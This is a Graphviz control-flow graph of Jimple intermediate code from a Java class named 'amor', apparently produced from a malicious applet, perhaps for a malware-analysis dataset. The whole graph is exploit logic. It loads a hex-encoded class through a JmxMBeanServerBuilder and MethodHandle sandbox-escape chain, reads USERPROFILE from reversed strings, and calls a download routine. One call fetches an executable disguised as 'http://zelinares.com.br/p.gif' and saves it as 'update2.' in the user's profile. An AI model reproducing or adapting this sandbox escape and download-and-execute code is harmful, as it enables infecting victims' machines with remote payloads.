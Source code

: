 digraph "" {
    "r0 := @this: amor"
    "$r21 = <amor: java.lang.String ByteArrayWithSecOff>"
    "r0 := @this: amor"->"$r21 = <amor: java.lang.String ByteArrayWithSecOff>";
    "r54 = virtualinvoke r0.<amor: byte[] hex2Byte(java.lang.String)>($r21)"
    "$r21 = <amor: java.lang.String ByteArrayWithSecOff>"->"r54 = virtualinvoke r0.<amor: byte[] hex2Byte(java.lang.String)>($r21)";
    "$r22 = new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "r54 = virtualinvoke r0.<amor: byte[] hex2Byte(java.lang.String)>($r21)"->"$r22 = new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "specialinvoke $r22.<com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>()"
    "$r22 = new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"specialinvoke $r22.<com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>()";
    "$r23 = virtualinvoke $r22.<com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>(\"\", null, null)"
    "specialinvoke $r22.<com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>()"->"$r23 = virtualinvoke $r22.<com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>(\"\", null, null)";
    "r2 = (com.sun.jmx.mbeanserver.JmxMBeanServer) $r23"
    "$r23 = virtualinvoke $r22.<com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>(\"\", null, null)"->"r2 = (com.sun.jmx.mbeanserver.JmxMBeanServer) $r23";
    "staticinvoke <pC: void DoFirst(java.lang.Object)>(r2)"
    "r2 = (com.sun.jmx.mbeanserver.JmxMBeanServer) $r23"->"staticinvoke <pC: void DoFirst(java.lang.Object)>(r2)";
    "staticinvoke <pC: void genLookup()>()"
    "staticinvoke <pC: void DoFirst(java.lang.Object)>(r2)"->"staticinvoke <pC: void genLookup()>()";
    "$r24 = newarray (java.lang.Class)[1]"
    "staticinvoke <pC: void genLookup()>()"->"$r24 = newarray (java.lang.Class)[1]";
    "$r24[0] = class \"Ljava/lang/invoke/MethodType;\""
    "$r24 = newarray (java.lang.Class)[1]"->"$r24[0] = class \"Ljava/lang/invoke/MethodType;\"";
    "r3 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>(class \"Ljava/lang/invoke/MethodHandle;\", class \"Ljava/lang/Class;\", $r24)"
    "$r24[0] = class \"Ljava/lang/invoke/MethodType;\""->"r3 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>(class \"Ljava/lang/invoke/MethodHandle;\", class \"Ljava/lang/Class;\", $r24)";
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>(1, r3)"
    "r3 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>(class \"Ljava/lang/invoke/MethodHandle;\", class \"Ljava/lang/Class;\", $r24)"->"staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>(1, r3)";
    "$r25 = <java.lang.Void: java.lang.Class TYPE>"
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>(1, r3)"->"$r25 = <java.lang.Void: java.lang.Class TYPE>";
    "$r26 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>($r25)"
    "$r25 = <java.lang.Void: java.lang.Class TYPE>"->"$r26 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>($r25)";
    "<amor: java.lang.invoke.MethodType localMethodType2> = $r26"
    "$r26 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>($r25)"->"<amor: java.lang.invoke.MethodType localMethodType2> = $r26";
    "r4 = staticinvoke <pC: java.lang.Object[] genObj1()>()"
    "<amor: java.lang.invoke.MethodType localMethodType2> = $r26"->"r4 = staticinvoke <pC: java.lang.Object[] genObj1()>()";
    "$r27 = <pC: java.lang.invoke.MethodHandle lMH1>"
    "r4 = staticinvoke <pC: java.lang.Object[] genObj1()>()"->"$r27 = <pC: java.lang.invoke.MethodHandle lMH1>";
    "$r28 = virtualinvoke $r27.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>(r4)"
    "$r27 = <pC: java.lang.invoke.MethodHandle lMH1>"->"$r28 = virtualinvoke $r27.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>(r4)";
    "r5 = (java.lang.invoke.MethodHandle) $r28"
    "$r28 = virtualinvoke $r27.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>(r4)"->"r5 = (java.lang.invoke.MethodHandle) $r28";
    "$r29 = newarray (java.lang.Object)[0]"
    "r5 = (java.lang.invoke.MethodHandle) $r28"->"$r29 = newarray (java.lang.Object)[0]";
    "r6 = virtualinvoke r5.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>($r29)"
    "$r29 = newarray (java.lang.Object)[0]"->"r6 = virtualinvoke r5.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>($r29)";
    "r7 = staticinvoke <pC: java.lang.invoke.MethodType mtR()>()"
    "r6 = virtualinvoke r5.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>($r29)"->"r7 = staticinvoke <pC: java.lang.invoke.MethodType mtR()>()";
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>(0, r7)"
    "r7 = staticinvoke <pC: java.lang.invoke.MethodType mtR()>()"->"staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>(0, r7)";
    "$r30 = <amor: java.lang.Class localClass2>"
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>(0, r7)"->"$r30 = <amor: java.lang.Class localClass2>";
    "r8 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>($r30, class \"Ljava/lang/ClassLoader;\")"
    "$r30 = <amor: java.lang.Class localClass2>"->"r8 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>($r30, class \"Ljava/lang/ClassLoader;\")";
    "r9 = staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>(r8)"
    "r8 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>($r30, class \"Ljava/lang/ClassLoader;\")"->"r9 = staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>(r8)";
    "$r31 = <pC: java.lang.invoke.MethodHandle lMH3>"
    "r9 = staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>(r8)"->"$r31 = <pC: java.lang.invoke.MethodHandle lMH3>";
    "$r32 = virtualinvoke $r31.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>(r9)"
    "$r31 = <pC: java.lang.invoke.MethodHandle lMH3>"->"$r32 = virtualinvoke $r31.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>(r9)";
    "r10 = (java.lang.invoke.MethodHandle) $r32"
    "$r32 = virtualinvoke $r31.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>(r9)"->"r10 = (java.lang.invoke.MethodHandle) $r32";
    "$r33 = newarray (java.lang.Object)[2]"
    "r10 = (java.lang.invoke.MethodHandle) $r32"->"$r33 = newarray (java.lang.Object)[2]";
    "$r33[0] = r6"
    "$r33 = newarray (java.lang.Object)[2]"->"$r33[0] = r6";
    "$r33[1] = null"
    "$r33[0] = r6"->"$r33[1] = null";
    "r11 = virtualinvoke r10.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>($r33)"
    "$r33[1] = null"->"r11 = virtualinvoke r10.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>($r33)";
    "$r34 = newarray (java.lang.Class)[1]"
    "r11 = virtualinvoke r10.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>($r33)"->"$r34 = newarray (java.lang.Class)[1]";
    "$r34[0] = class \"[B\""
    "$r34 = newarray (java.lang.Class)[1]"->"$r34[0] = class \"[B\"";
    "r12 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>(class \"Ljava/lang/Class;\", class \"Ljava/lang/String;\", $r34)"
    "$r34[0] = class \"[B\""->"r12 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>(class \"Ljava/lang/Class;\", class \"Ljava/lang/String;\", $r34)";
    "r13 = staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>(r12)"
    "r12 = staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>(class \"Ljava/lang/Class;\", class \"Ljava/lang/String;\", $r34)"->"r13 = staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>(r12)";
    "$r35 = <pC: java.lang.invoke.MethodHandle lMH3>"
    "r13 = staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>(r12)"->"$r35 = <pC: java.lang.invoke.MethodHandle lMH3>";
    "$r36 = virtualinvoke $r35.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>(r13)"
    "$r35 = <pC: java.lang.invoke.MethodHandle lMH3>"->"$r36 = virtualinvoke $r35.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>(r13)";
    "r14 = (java.lang.invoke.MethodHandle) $r36"
    "$r36 = virtualinvoke $r35.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>(r13)"->"r14 = (java.lang.invoke.MethodHandle) $r36";
    "$r37 = newarray (java.lang.Object)[3]"
    "r14 = (java.lang.invoke.MethodHandle) $r36"->"$r37 = newarray (java.lang.Object)[3]";
    "$r37[0] = r11"
    "$r37 = newarray (java.lang.Object)[3]"->"$r37[0] = r11";
    "$r37[1] = null"
    "$r37[0] = r11"->"$r37[1] = null";
    "$r37[2] = r54"
    "$r37[1] = null"->"$r37[2] = r54";
    "$r38 = virtualinvoke r14.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>($r37)"
    "$r37[2] = r54"->"$r38 = virtualinvoke r14.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>($r37)";
    "r15 = (java.lang.Class) $r38"
    "$r38 = virtualinvoke r14.<java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>($r37)"->"r15 = (java.lang.Class) $r38";
    "staticinvoke <pC: void nI(java.lang.Class)>(r15)"
    "r15 = (java.lang.Class) $r38"->"staticinvoke <pC: void nI(java.lang.Class)>(r15)";
    "$r39 = new java.lang.StringBuilder"
    "staticinvoke <pC: void nI(java.lang.Class)>(r15)"->"$r39 = new java.lang.StringBuilder";
    "specialinvoke $r39.<java.lang.StringBuilder: void <init>()>()"
    "$r39 = new java.lang.StringBuilder"->"specialinvoke $r39.<java.lang.StringBuilder: void <init>()>()";
    "$r40 = staticinvoke <amor: java.lang.String rver(java.lang.String)>(\"SRESULLA\")"
    "specialinvoke $r39.<java.lang.StringBuilder: void <init>()>()"->"$r40 = staticinvoke <amor: java.lang.String rver(java.lang.String)>(\"SRESULLA\")";
    "$r41 = virtualinvoke $r39.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r40)"
    "$r40 = staticinvoke <amor: java.lang.String rver(java.lang.String)>(\"SRESULLA\")"->"$r41 = virtualinvoke $r39.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r40)";
    "$r42 = staticinvoke <amor: java.lang.String rver(java.lang.String)>(\"ELIFORP\")"
    "$r41 = virtualinvoke $r39.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r40)"->"$r42 = staticinvoke <amor: java.lang.String rver(java.lang.String)>(\"ELIFORP\")";
    "$r43 = virtualinvoke $r41.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r42)"
    "$r42 = staticinvoke <amor: java.lang.String rver(java.lang.String)>(\"ELIFORP\")"->"$r43 = virtualinvoke $r41.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r42)";
    "r16 = virtualinvoke $r43.<java.lang.StringBuilder: java.lang.String toString()>()"
    "$r43 = virtualinvoke $r41.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r42)"->"r16 = virtualinvoke $r43.<java.lang.StringBuilder: java.lang.String toString()>()";
    "r55 = null"
    "r16 = virtualinvoke $r43.<java.lang.StringBuilder: java.lang.String toString()>()"->"r55 = null";
    "z1 = 0"
    "r55 = null"->"z1 = 0";
    "$r52 := @caughtexception"
    "z1 = 0"->"$r52 := @caughtexception";
    "r57 = virtualinvoke r0.<amor: java.lang.String getParameter(java.lang.String)>(\"link\")"
    "$r52 := @caughtexception"->"r57 = virtualinvoke r0.<amor: java.lang.String getParameter(java.lang.String)>(\"link\")";
    "r17 = virtualinvoke r57.<java.lang.String: java.lang.String[] split(java.lang.String)>(\";\")"
    "r57 = virtualinvoke r0.<amor: java.lang.String getParameter(java.lang.String)>(\"link\")"->"r17 = virtualinvoke r57.<java.lang.String: java.lang.String[] split(java.lang.String)>(\";\")";
    "r18 = r17[0]"
    "r17 = virtualinvoke r57.<java.lang.String: java.lang.String[] split(java.lang.String)>(\";\")"->"r18 = r17[0]";
    "r19 = r17[1]"
    "r18 = r17[0]"->"r19 = r17[1]";
    "r20 = r17[2]"
    "r19 = r17[1]"->"r20 = r17[2]";
    "$z0 = virtualinvoke r20.<java.lang.String: boolean equals(java.lang.Object)>(\"0\")"
    "r20 = r17[2]"->"$z0 = virtualinvoke r20.<java.lang.String: boolean equals(java.lang.Object)>(\"0\")";
    "if $z0 != 0 goto $r44 = new java.lang.StringBuilder"
    "$z0 = virtualinvoke r20.<java.lang.String: boolean equals(java.lang.Object)>(\"0\")"->"if $z0 != 0 goto $r44 = new java.lang.StringBuilder";
    "z1 = 1"
    "if $z0 != 0 goto $r44 = new java.lang.StringBuilder"->"z1 = 1";
    "$r44 = new java.lang.StringBuilder"
    "z1 = 1"->"$r44 = new java.lang.StringBuilder";
    "specialinvoke $r44.<java.lang.StringBuilder: void <init>()>()"
    "$r44 = new java.lang.StringBuilder"->"specialinvoke $r44.<java.lang.StringBuilder: void <init>()>()";
    "$r45 = virtualinvoke $r44.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r55)"
    "specialinvoke $r44.<java.lang.StringBuilder: void <init>()>()"->"$r45 = virtualinvoke $r44.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r55)";
    "$r46 = virtualinvoke $r45.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\\jupdate.\")"
    "$r45 = virtualinvoke $r44.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r55)"->"$r46 = virtualinvoke $r45.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\\jupdate.\")";
    "$r47 = virtualinvoke $r46.<java.lang.StringBuilder: java.lang.String toString()>()"
    "$r46 = virtualinvoke $r45.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\\jupdate.\")"->"$r47 = virtualinvoke $r46.<java.lang.StringBuilder: java.lang.String toString()>()";
    "virtualinvoke r0.<amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>(r18, $r47, r19, z1)"
    "$r47 = virtualinvoke $r46.<java.lang.StringBuilder: java.lang.String toString()>()"->"virtualinvoke r0.<amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>(r18, $r47, r19, z1)";
    "$r48 = new java.lang.StringBuilder"
    "virtualinvoke r0.<amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>(r18, $r47, r19, z1)"->"$r48 = new java.lang.StringBuilder";
    "specialinvoke $r48.<java.lang.StringBuilder: void <init>()>()"
    "$r48 = new java.lang.StringBuilder"->"specialinvoke $r48.<java.lang.StringBuilder: void <init>()>()";
    "$r49 = virtualinvoke $r48.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r55)"
    "specialinvoke $r48.<java.lang.StringBuilder: void <init>()>()"->"$r49 = virtualinvoke $r48.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r55)";
    "$r50 = virtualinvoke $r49.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\\update2.\")"
    "$r49 = virtualinvoke $r48.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r55)"->"$r50 = virtualinvoke $r49.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\\update2.\")";
    "$r51 = virtualinvoke $r50.<java.lang.StringBuilder: java.lang.String toString()>()"
    "$r50 = virtualinvoke $r49.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\\update2.\")"->"$r51 = virtualinvoke $r50.<java.lang.StringBuilder: java.lang.String toString()>()";
    "virtualinvoke r0.<amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>(\"http://zelinares.com.br/p.gif\", $r51, \"exe\", 1)"
    "$r51 = virtualinvoke $r50.<java.lang.StringBuilder: java.lang.String toString()>()"->"virtualinvoke r0.<amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>(\"http://zelinares.com.br/p.gif\", $r51, \"exe\", 1)";
    "goto [?= return]"
    "virtualinvoke r0.<amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>(\"http://zelinares.com.br/p.gif\", $r51, \"exe\", 1)"->"goto [?= return]";
    "return"
    "goto [?= return]"->"return";
    "$r53 := @caughtexception"
    "virtualinvoke r0.<amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>(\"http://zelinares.com.br/p.gif\", $r51, \"exe\", 1)"->"$r53 := @caughtexception";
    "r55 = specialinvoke r0.<amor: java.lang.String _get__env(java.lang.String)>(r16)"
    "z1 = 0"->"r55 = specialinvoke r0.<amor: java.lang.String _get__env(java.lang.String)>(r16)";
    "goto [?= r57 = virtualinvoke r0.<amor: java.lang.String getParameter(java.lang.String)>(\"link\")]"
    "r55 = specialinvoke r0.<amor: java.lang.String _get__env(java.lang.String)>(r16)"->"goto [?= r57 = virtualinvoke r0.<amor: java.lang.String getParameter(java.lang.String)>(\"link\")]";
}
